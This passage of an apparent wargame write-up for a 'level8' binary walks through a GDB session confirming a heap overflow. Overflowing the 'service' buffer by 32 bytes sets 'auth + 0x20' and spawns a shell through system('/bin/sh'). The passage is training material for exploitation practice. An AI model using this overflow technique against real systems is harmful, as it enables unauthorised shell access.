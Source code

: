 Type `login` in the program to trigger the vulnerable branch.

We then hit the breakpoint:

```gdb
Breakpoint 2, 0x080486e7 in main ()
```

Inspect the value of `auth + 0x20`:

```gdb
(gdb) x/x 0x0804a028
0x804a028: 0x41414141
```

This confirms that the value at `auth + 0x20` is non-zero, due to the overflow. The condition:

```gdb
if (*(auth + 0x20) != 0)
```

...is therefore true.

Continue execution:

```gdb
(gdb) continue
```

A shell is spawned:

```gdb
$ whoami
level8
```

Warning:  Since we are still inside GDB and the exploit was launched from the `level8` user context, the `whoami` output remains `level8`. However, this proves that the vulnerability can be triggered successfully and leads to `system("/bin/sh")`.

---

### **Conclusion**

This GDB session confirms that `level8` is vulnerable to a heap overflow between two adjacent chunks (`auth` and `service`). Because `strdup()` places the `service` buffer immediately after `auth`, overflowing the service input allows us to write into `auth + 0x20`. This value is later dereferenced and checked, if non-zero, the program executes `system("/bin/sh")`.

**Key Findings:**

* `auth` points to a 4-byte allocation → `auth + 0x20` lives inside the next chunk
* `service` buffer is allocated immediately after `auth`
* **Overflow offset: 32 bytes**
* Injecting a non-zero dword at offset +32 triggers the call to `system("/bin/sh")`
